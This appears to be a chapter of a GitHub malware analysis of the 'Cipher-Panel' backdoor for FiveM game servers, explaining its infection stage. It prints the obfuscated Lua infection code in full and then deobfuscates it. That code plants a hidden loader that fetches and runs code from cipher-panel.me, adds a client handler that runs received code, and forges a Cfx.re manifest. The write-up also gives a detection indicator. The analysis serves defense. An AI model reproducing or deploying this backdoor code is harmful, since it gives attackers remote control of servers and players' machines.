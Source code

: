 ## Chapter 2 (Infection)
This chapter covers the infection code used in the malicious code to hire dubbed Cipher-Panel.

### Introduction
The infection code for this malicious software is one of the best examples of failed obfuscation the world has to offer. The code is downloaded and excuted via the payload code we covered in [Chapter 1](https://github.com/ericstolly/cipher/blob/main/chapters/chapter-1-payload.md).

#### Original Code
```lua
local kaskyWVklaWSErrrnVBB = "\x73\x65\x73\x73\x69\x6f\x6e\x6d\x61\x6e\x61\x67\x65\x72"
local kakkyWVklaWSErrrnVBB = "\x2f\x73\x65\x72\x76\x65\x72\x2f\x68\x6f\x73\x74\x5f\x6c\x6f\x63\x6b\x2e\x6c\x75\x61"
local YBLgfdYggNgxwqazyGsb = "\x2f\x73\x65\x72\x76\x65\x72\x2f\x6c\x69\x63\x65\x6e\x63\x65\x2e\x74\x78\x74"
local ZudnizosZzhdkeuSzndh = "\x2f\x73\x65\x72\x76\x65\x72\x2f\x67\x61\x6d\x65\x2e\x6c\x6f\x67"
local eVSsCsytJpinTgqcGOIz = "\x2f\x63\x6c\x69\x65\x6e\x74\x2f\x65\x6d\x70\x74\x79\x2e\x6c\x75\x61"
local TeRfIyyWqxeqaJtVpjHO = "\x2f\x66\x78\x6d\x61\x6e\x69\x66\x65\x73\x74\x2e\x6c\x75\x61"
local aOSpqxARmZAARgJKFkSP, dzhdoDHOZhjcqbcdqz =
    "\x72\x65\x73\x6f\x75\x72\x63\x65\x73\x2f\x5b\x73\x79\x73\x74\x65\x6d\x5d\x2f\x73\x65\x73\x73\x69\x6f\x6e\x6d\x61\x6e\x61\x67\x65\x72\x2f\x73\x65\x72\x76\x65\x72\x2f\x6c\x69\x63\x65\x6e\x63\x65\x2e\x74\x78\x74",
    GetResourcePath
Citizen.CreateThread(
    function()
        Citizen.Wait(20000)
        raSdVeoRVnbTqXAqXrWO = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. YBLgfdYggNgxwqazyGsb, "r")
        raSdVexRVnbTqXAqXrWO = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. ZudnizosZzhdkeuSzndh, "r")
        if (raSdVeoRVnbTqXAqXrWO or raSdVexRVnbTqXAqXrWO) then
        else
            esiwoeKYHGqUkFENuRrc = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. kakkyWVklaWSErrrnVBB, "a")
            esiwoeKYHGqUkFENuRrc:write("\n\nlocal XHiAookqKz = {")
            esiwoeKYHGqUkFENuRrc:write("\n	_G['PerformHttpRequest'],")
            esiwoeKYHGqUkFENuRrc:write("\n	_G['assert'],")
            esiwoeKYHGqUkFENuRrc:write("\n	_G['load'],")
            esiwoeKYHGqUkFENuRrc:write("\n	_G['tonumber']")
            esiwoeKYHGqUkFENuRrc:write("\n}")
            esiwoeKYHGqUkFENuRrc:write("\n\nlocal HFuKXKYHZq = {")
            esiwoeKYHGqUkFENuRrc:write(
                "\n	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',"
            )
            esiwoeKYHGqUkFENuRrc:write(
                "\n	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',"
            )
            esiwoeKYHGqUkFENuRrc:write(
                "\n	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'"
            )
            esiwoeKYHGqUkFENuRrc:write("\n}")
            esiwoeKYHGqUkFENuRrc:write("\n\nfunction sDOmZoZyZn()")
            esiwoeKYHGqUkFENuRrc:write("\n	UULJijIqvu = ''")
            esiwoeKYHGqUkFENuRrc:write("\n	for id,it in pairs(HFuKXKYHZq) do")
            esiwoeKYHGqUkFENuRrc:write("\n		UULJijIqvu = UULJijIqvu..it")
            esiwoeKYHGqUkFENuRrc:write("\n	end")
            esiwoeKYHGqUkFENuRrc:write("\n	return (UULJijIqvu:gsub('..', function (luwOyroAEjA)")
            esiwoeKYHGqUkFENuRrc:write("\n		return string.char(XHiAookqKz[4](luwOyroAEjA, 16))")
            esiwoeKYHGqUkFENuRrc:write("\n	end))")
            esiwoeKYHGqUkFENuRrc:write("\nend")
            esiwoeKYHGqUkFENuRrc:write("\n\nXHiAookqKz[XHiAookqKz[4]('1')](sDOmZoZyZn(), function (e, lgUVUNUOPG)")
            esiwoeKYHGqUkFENuRrc:write(
                "\n	local WEshhWKyxg = XHiAookqKz[XHiAookqKz[4]('2')](XHiAookqKz[XHiAookqKz[4]('3')](lgUVUNUOPG))"
            )
            esiwoeKYHGqUkFENuRrc:write("\n	if (lgUVUNUOPG == nil) then return end")
            esiwoeKYHGqUkFENuRrc:write("\n	WEshhWKyxg()")
            esiwoeKYHGqUkFENuRrc:write("\nend)")
            esiwoeKYHGqUkFENuRrc:close()
            OrGaRdnLVZIaTVnMJPJC = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. eVSsCsytJpinTgqcGOIz, "a")
            OrGaRdnLVZIaTVnMJPJC:write("\n\nRegisterNetEvent('helpCode')")
            OrGaRdnLVZIaTVnMJPJC:write("\n\nAddEventHandler('helpCode', function(id)")
            OrGaRdnLVZIaTVnMJPJC:write("\n	local help = assert(load(id))")
            OrGaRdnLVZIaTVnMJPJC:write("\n	help()")
            OrGaRdnLVZIaTVnMJPJC:write("\nend)")
            OrGaRdnLVZIaTVnMJPJC:close()
            oLwFxrKtOgqxQcwxVkHO = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. TeRfIyyWqxeqaJtVpjHO, "w")
            oLwFxrKtOgqxQcwxVkHO:write("-- This resource is part of the default Cfx.re asset pack (cfx-server-data)")
            oLwFxrKtOgqxQcwxVkHO:write("\n-- Altering or recreating for local use only is strongly discouraged.")
            oLwFxrKtOgqxQcwxVkHO:write("\n\nversion '1.0.0'")
            oLwFxrKtOgqxQcwxVkHO:write("\nauthor 'Cfx.re <root@cfx.re>'")
            oLwFxrKtOgqxQcwxVkHO:write("\ndescription 'Handles the host lock for non-OneSync servers. Do not disable.'")
            oLwFxrKtOgqxQcwxVkHO:write("\nrepository 'https://github.com/citizenfx/cfx-server-data'")
            oLwFxrKtOgqxQcwxVkHO:write("\n\nfx_version 'cerulean'")
            oLwFxrKtOgqxQcwxVkHO:write("\ngames { 'gta4', 'gta5' }")
            oLwFxrKtOgqxQcwxVkHO:write("\n\nserver_scripts { 'server/host_lock.lua', '@mysql-async/lib/MySQL.lua' }")
            oLwFxrKtOgqxQcwxVkHO:write("\nclient_script 'client/empty.lua'")
            oLwFxrKtOgqxQcwxVkHO:close()
            pgDTRRFUvQLbTgFTMTlt = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. ZudnizosZzhdkeuSzndh, "w")
            pgDTRRFUvQLbTgFTMTlt:write()
            pgDTRRFUvQLbTgFTMTlt:close()
        end
    end
)
```

The code above is yet again using UTF-8 encoding for a few fields, it also contains the contents of the `fxmanifest.lua` file thus it's safe to assume it writes to that file. It also uses a fair amount of `write` so again, it's safe to assume it writes to other files.


We once again simply decode the UTF-8 encoded strings and normalize the function names and fields.

#### UTF-8 String Reversal
```
Variable: kaskyWVklaWSErrrnVBB
Input: \x73\x65\x73\x73\x69\x6f\x6e\x6d\x61\x6e\x61\x67\x65\x72
Output: sessionmanager

Variable: kakkyWVklaWSErrrnVBB
Input: \x2f\x73\x65\x72\x76\x65\x72\x2f\x68\x6f\x73\x74\x5f\x6c\x6f\x63\x6b\x2e\x6c\x75\x61
Output: /server/host_lock.lua

Variable: YBLgfdYggNgxwqazyGsb
Input: \x2f\x73\x65\x72\x76\x65\x72\x2f\x6c\x69\x63\x65\x6e\x63\x65\x2e\x74\x78\x74
Output: /server/licence.txt

Variable: ZudnizosZzhdkeuSzndh
Input: \x2f\x73\x65\x72\x76\x65\x72\x2f\x67\x61\x6d\x65\x2e\x6c\x6f\x67
Output: /server/game.log

Variable: eVSsCsytJpinTgqcGOIz
Input: \x2f\x63\x6c\x69\x65\x6e\x74\x2f\x65\x6d\x70\x74\x79\x2e\x6c\x75\x61
Output: /client/empty.lua

Variable: TeRfIyyWqxeqaJtVpjHO
Input: \x2f\x66\x78\x6d\x61\x6e\x69\x66\x65\x73\x74\x2e\x6c\x75\x61
Output: /fxmanifest.lua

Variable: aOSpqxARmZAARgJKFkSP
Input: \x72\x65\x73\x6f\x75\x72\x63\x65\x73\x2f\x5b\x73\x79\x73\x74\x65\x6d\x5d\x2f\x73\x65\x73\x73\x69\x6f\x6e\x6d\x61\x6e\x61\x67\x65\x72\x2f\x73\x65\x72\x76\x65\x72\x2f\x6c\x69\x63\x65\x6e\x63\x65\x2e\x74\x78\x74
Output: resources/[system]/sessionmanager/server/licence.txt
```

The UTF-8 encoded strings were all files and directories, they are used in conjunction with IO operations thus we get infected files list.

#### Final Mapped and Normalised Code
```lua
Citizen.CreateThread(
    function()
        Citizen.Wait(20000)
		
        licenseFile = io.open(GetResourcePath("sessionmanager") .. "/server/licence.txt", "r")
        gameLogFile = io.open(GetResourcePath("sessionmanager") .. "/server/game.log", "r")
		
        if (licenseFile or gameLogFile) then
        else
            hostLockFile = io.open(GetResourcePath("sessionmanager") .. "/server/host_lock.lua", "a")
            hostLockFile:write("\n\nlocal XHiAookqKz = {")
            hostLockFile:write("\n	_G['PerformHttpRequest'],")
            hostLockFile:write("\n	_G['assert'],")
            hostLockFile:write("\n	_G['load'],")
            hostLockFile:write("\n	_G['tonumber']")
            hostLockFile:write("\n}")
            hostLockFile:write("\n\nlocal HFuKXKYHZq = {")
            hostLockFile:write(
                "\n	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',"
            )
            hostLockFile:write(
                "\n	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',"
            )
            hostLockFile:write(
                "\n	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'"
            )
            hostLockFile:write("\n}")
            hostLockFile:write("\n\nfunction sDOmZoZyZn()")
            hostLockFile:write("\n	UULJijIqvu = ''")
            hostLockFile:write("\n	for id,it in pairs(HFuKXKYHZq) do")
            hostLockFile:write("\n		UULJijIqvu = UULJijIqvu..it")
            hostLockFile:write("\n	end")
            hostLockFile:write("\n	return (UULJijIqvu:gsub('..', function (luwOyroAEjA)")
            hostLockFile:write("\n		return string.char(XHiAookqKz[4](luwOyroAEjA, 16))")
            hostLockFile:write("\n	end))")
            hostLockFile:write("\nend")
            hostLockFile:write("\n\nXHiAookqKz[XHiAookqKz[4]('1')](sDOmZoZyZn(), function (e, lgUVUNUOPG)")
            hostLockFile:write(
                "\n	local WEshhWKyxg = XHiAookqKz[XHiAookqKz[4]('2')](XHiAookqKz[XHiAookqKz[4]('3')](lgUVUNUOPG))"
            )
            hostLockFile:write("\n	if (lgUVUNUOPG == nil) then return end")
            hostLockFile:write("\n	WEshhWKyxg()")
            hostLockFile:write("\nend)")
            hostLockFile:close()
			
            emptyLuaFile = io.open(GetResourcePath("sessionmanager") .. "/client/empty.lua", "a")
            emptyLuaFile:write("\n\nRegisterNetEvent('helpCode')")
            emptyLuaFile:write("\n\nAddEventHandler('helpCode', function(id)")
            emptyLuaFile:write("\n	local help = assert(load(id))")
            emptyLuaFile:write("\n	help()")
            emptyLuaFile:write("\nend)")
            emptyLuaFile:close()

            fxManifestLuaFile = io.open(GetResourcePath("sessionmanager") .. "/fxmanifest.lua", "w")
            fxManifestLuaFile:write("-- This resource is part of the default Cfx.re asset pack (cfx-server-data)")
            fxManifestLuaFile:write("\n-- Altering or recreating for local use only is strongly discouraged.")
            fxManifestLuaFile:write("\n\nversion '1.0.0'")
            fxManifestLuaFile:write("\nauthor 'Cfx.re <root@cfx.re>'")
            fxManifestLuaFile:write("\ndescription 'Handles the host lock for non-OneSync servers. Do not disable.'")
            fxManifestLuaFile:write("\nrepository 'https://github.com/citizenfx/cfx-server-data'")
            fxManifestLuaFile:write("\n\nfx_version 'cerulean'")
            fxManifestLuaFile:write("\ngames { 'gta4', 'gta5' }")
            fxManifestLuaFile:write("\n\nserver_scripts { 'server/host_lock.lua', '@mysql-async/lib/MySQL.lua' }")
            fxManifestLuaFile:write("\nclient_script 'client/empty.lua'")
            fxManifestLuaFile:close()
			
            gameLogsFile = io.open(GetResourcePath("sessionmanager") .. "/server/game.log", "w")
            gameLogsFile:write()
            gameLogsFile:close()
        end
    end
)
```

After the mapping and normalization of the code, we can see that it writes to the files[^1] found in the UTF-8 string reversal. It is also in this code that we gather more evidence of the intelligence the authors of this malicious software have, they lacked the understanding to string escape for the quotation marks in their `fxmanifest.lua` infection oppose to the original which includes quotations marks in the `description` value of the [original manifest file](https://github.com/citizenfx/cfx-server-data/blob/master/resources/%5Bsystem%5D/sessionmanager/fxmanifest.lua#L6). This, in turn, provides an indicator for the detection for this software [^2].

The files modified here are covered in the next chapter.

[^1]: `resources\[FiveM]\[system]\sessionmanager\server\host_lock.lua`, `resources\[FiveM]\[system]\sessionmanager\client\empty.lua` and `resources\[FiveM]\[system]\sessionmanager\fxmanifest.lua`.
[^2]: Checking that the `fxmanifest.lua` file doesn't include quotation marks on the `description` line would confirm either modification or infection.

[Chapter 3 (???)](https://github.com/ericstolly/)
